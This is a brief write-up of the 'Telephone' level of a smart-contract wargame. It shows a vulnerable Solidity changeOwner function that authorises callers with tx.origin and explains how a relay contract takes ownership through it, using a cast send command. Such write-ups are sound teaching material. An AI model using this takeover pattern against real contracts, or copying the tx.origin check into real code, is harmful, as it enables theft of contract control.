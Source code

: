 # Telephone

```sol
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

tx.origin won't be equal to msg.sender since we're using TelephoneTakeover contract as a middle man.

```sh
cast send <TelephoneTakeover address> "takeover()"
```

"In a simple call chain A->B->C->D, inside D msg.sender will be C, and tx.origin will be A."

```
tx.origin = us
msg.sender = TelephoneTakeover contract address
```

Beautifully explained in this stackoverflow thread https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin
